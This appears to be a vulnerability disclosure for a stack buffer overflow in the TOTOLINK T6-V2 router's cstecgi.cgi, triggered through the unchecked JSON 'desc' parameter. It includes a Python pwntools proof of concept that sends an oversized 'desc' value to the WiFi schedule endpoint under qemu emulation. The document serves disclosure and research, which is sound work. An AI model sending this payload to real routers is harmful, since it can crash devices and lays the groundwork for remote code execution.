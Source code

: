 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00413be4` (at address 0x413be4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529103944191.png" alt="image-20220529103944191" style="zoom:67%;" />

<img src="img/image-20220529104042648.png" alt="image-20220529104042648" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiScheduleCfg",
    "addEffect": "1",
    "enable": "1",
    "desc": "A"*0x400,
    "week": "1",
    "sHour": "1",
    "sMinute": "1",
    "eHour": "1",
    "eMinute": "1",
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

